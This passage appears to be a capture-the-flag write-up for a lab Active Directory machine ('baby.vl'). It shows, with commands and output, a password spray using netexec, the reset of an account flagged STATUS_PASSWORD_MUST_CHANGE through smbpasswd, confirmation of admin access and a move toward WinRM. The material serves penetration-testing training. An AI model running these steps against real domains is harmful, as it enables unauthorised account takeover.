 ```bash
Teresa.Bell
Caroline.Robinson
```

Lets take the usernames and save them in `users.txt`.

Now we have a list of usernames and a potential password we can do a quick password spray using netexec:

```bash
netexec ldap 10.10.111.218 -u users.txt -p 'BabyStart123!' --continue-on-success
LDAP        10.10.111.218     389    BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
LDAP        10.10.111.218     389    BABYDC           [-] baby.vl\Jacqueline.Barnett:BabyStart123! 
LDAP        10.10.111.218     389    BABYDC           [-] baby.vl\Ashley.Webb:BabyStart123! 
LDAP        10.10.111.218     389    BABYDC           [-] baby.vl\Hugh.George:BabyStart123! 
LDAP        10.10.111.218     389    BABYDC           [-] baby.vl\Leonard.Dyer:BabyStart123! 
LDAP        10.10.111.218     389    BABYDC           [-] baby.vl\Connor.Wilkinson:BabyStart123! 
LDAP        10.10.111.218     389    BABYDC           [-] baby.vl\Joseph.Hughes:BabyStart123! 
LDAP        10.10.111.218     389    BABYDC           [-] baby.vl\Kerry.Wilson:BabyStart123! 
LDAP        10.10.111.218     389    BABYDC           [-] baby.vl\Teresa.Bell:BabyStart123! 
LDAP        10.10.111.218     389    BABYDC           [-] baby.vl\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE
```

Interesting, `Caroline.Robinson` gave us a response `STATUS_PASSWORD_MUST_CHANGE`.  

A quick google returns this page [https://exploit-notes.hdks.org/exploit/windows/active-directory/smb-pentesting/#brute-force-credentials](https://exploit-notes.hdks.org/exploit/windows/active-directory/smb-pentesting/#brute-force-credentials).  So using the tool smbpasswd we can set a new password for the user.

```bash
smbpasswd -r 10.10.111.218 -U Caroline.Robinson
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user Caroline.Robinson
```

Now lets try the new secure password I set for Caroline.Robinson:

```bash
netexec ldap 10.10.111.218 -u 'Caroline.Robinson' -p 'Password123!'
LDAP        10.10.111.218     389    BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
LDAP        10.10.111.218     389    BABYDC           [+] baby.vl\Caroline.Robinson:Password123! (Pwn3d!)
```

## Winrm here we come

We noticed when looking at the nmap output that winrm was available on the box:

```bash
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```
Lets see if we can use winrm as Caroline.Robinson
